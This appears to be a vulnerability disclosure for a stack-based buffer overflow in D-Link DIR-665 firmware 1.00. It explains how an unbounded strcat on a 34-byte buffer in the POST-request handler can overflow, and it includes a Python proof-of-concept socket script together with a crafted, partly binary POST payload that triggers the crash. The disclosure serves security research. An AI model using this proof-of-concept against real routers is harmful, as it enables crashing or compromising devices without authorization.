 # Overview
Details of the vulnerability found in the dlink router dir-665.

| Firmware Name  | Firmware Version  | Download Link  |
| -------------- | ----------------- | -------------- |
| dir-665    |  1.00    | https://legacyfiles.us.dlink.com/DIR-665/REVA/DIR-665_REVA_FIRMWARE_1.00.ZIP   |




# Vulnerability details
## 1. Vulnerability trigger Location
A stack-based buffer overflow vulnerability exists in the function `sub_AC78` at offset 0000ACBC, where the `strcat` function is called without proper bounds checking. A specially crafted POST request can trigger the overflow.
![Vulnerability Trigger Location](./assets/1.png)

## 2. Vulnerability  Analysis
- This vulnerability occurs when the program processes a POST request from the user. It attempts to locate a corresponding file under the www directory; however, when constructing the file name, it uses the unsafe `strcat` function for string concatenation. The destination buffer can hold at most 34 bytes of data. Therefore, when the POST request exceeds 34 bytes, a stack-based buffer overflow can occur. A specially crafted POST request can be used to trigger this vulnerability..
![second](./assets/2.png)




# POC
## python script
```python
import socket

host = "172.17.0.178"
port = 80
file = "../crashes/payload.txt"
f = open(file, "rb")
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, port))

request = f.read()

s.send(request)

response = s.recv(4096)

print(response.decode())

s.close()
```
## Payload.txt

**Note the use of CRLF (Carriage Return and Line Feed) for line breaks.**
```
POST /�)gpo|connect.cgi*oP|�*con||||.cgi*oP|||||||||||||||nd_*.gif 
```

# Vulnerability Verification Screenshot
##  dir-665
![3.png](./assets/3.png)

# Discoverer
m202472188@hust.edu.cn
